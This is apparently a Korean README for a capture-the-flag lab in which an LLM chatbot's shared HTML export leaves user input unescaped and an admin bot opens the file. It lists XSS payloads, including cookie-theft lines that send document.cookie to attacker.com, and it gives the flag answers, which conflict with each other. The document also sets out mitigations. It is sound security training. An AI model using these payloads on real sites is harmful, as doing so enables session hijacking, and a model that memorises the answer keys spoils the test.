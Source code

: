 # 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

글로벌 IT 기업 LLL Corporation의 개발팀 J 대리는 관리자 권한으로 정기적으로 XSS 취약점이 발견된 회사의 새로운 메모 응원 시스템의 응답을 점검하고 있다.

이 시나리오는 대화 내역 저장 기반 챗봇 동작과 HTML 공유 기능 악용이라는 두 구조로 동작한다:

대화 저장 시 컨버세이션 히스토리를 갱신한다. J 대리가 ChatLLL 화면에 메시지를 입력하면, 시스템은 내용을 conversation_history에 그대로 기록해 이후 참조용으로 유지한다.

LLM 호출 시 고객 상담 응답을 생성한다. ctf05_LLM_ask() 함수가 conversation_history의 최신 메시지를 컨텍스트로 사용해 OpenAI GPT-3.5-turbo를 호출하고, 챗봇 답변을 반환한다.

HTML 공유 시 대화 내역을 문서화한다. J 대리가 “HTML 파일 생성하기” 버튼을 누르면 ctf05_generate_share_html() 함수가 전체 대화 내역을 HTML 템플릿에 삽입해 파일로 저장한다. 이때, J 대리의 입력은 이스케이프 처리를 거치지 않고 <div> 내부에 원문 그대로 포함된다.

관리자 봇은 HTML 파일을 자동으로 로드한다. ctf05_admin_bot_visit() 함수가 Headless Chrome을 통해 생성된 HTML 파일을 열어 관리자 검토 과정을 시뮬레이션한다.

XSS 페이로드 실행 시 플래그를 획득할 수 있다. HTML이 로드되는 순간, J 대리 입력에 숨겨져 있던 악성 <script> 코드가 관리자 브라우저에서 실행되어 세션 쿠키 탈취·권한 상승 등이 가능해지며, 조건 충족 시 플래그가 노출된다.

🎯 공략 대상: J 대리는 악성 JavaScript 코드를 다양한 입력 벡터에 삽입하여 악용할 수 있다.

    - 악성 스크립트 삽입: 챗봇에게 <script>alert('XSS')</script> 같은 JavaScript 코드를 포함한 메시지를 전송한다.

    - 쿠키 탈취 페이로드: <script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script> 같은 코드로 관리자 쿠키를 외부 서버로 전송한다.

    - DOM 조작: <script>document.body.innerHTML = '<h1>Hacked!</h1>'</script> 같은 코드로 HTML 문서를 조작한다.

    - 이미지 태그 활용: <img src=x onerror="alert('XSS')">처럼 이미지 오류 이벤트를 이용한 스크립트 실행도 가능하다.

    - HTML 엔티티 우회: 필터링이 있다면 &lt;script&gt; 같은 HTML 엔티티를 이용해 우회를 시도할 수 있다.

생성된 HTML 파일에서는 admin_session=ctf05_flag 쿠키가 설정되므로, J 대리가 이를 탈취하면 플래그를 획득할 수 있다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입하기

* 공유 HTML 기능을 통해 관리자 봇에게 해당 HTML 열람 유도하기

* XSS 실행 시 `admin_session=ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}` 쿠키를 탈취하여 외부로 전송하기

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----|-----|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 📥 프롬프트 입력창 | 사용자가 질문을 입력 |
| 🧪 LLM 응답 출력창 | 시스템 프롬프트에 따라 응답이 다르게 출력 |
| 💬 대화 내용 공유 창 | 대화 내용 공유 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## 💥 공격 흐름 예시
### 1. 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

### 2. 동작 흐름

| 단계 | 설명 |
|-----------|------|
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨 |

### 3. 위협 요소 및 대응 방안

| 위협 | 설명 | 대응 |
|-----------|------|------|
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

### 4. 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|-----|-----|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```
flag{answer}
```

정답이면 ✅ `"정답입니다!"` 출력  
오답이면 ❌ `"틀렸습니다."` 출력

<br>

## 🔐 모델 요구 조건

* 관리자 브라우저에서 악성 스크립트가 실행되어야 함

* `admin_session` 쿠키를 외부 서버로 전송해야 함

* 플래그: `ctf05_flag{llm_xss_success}`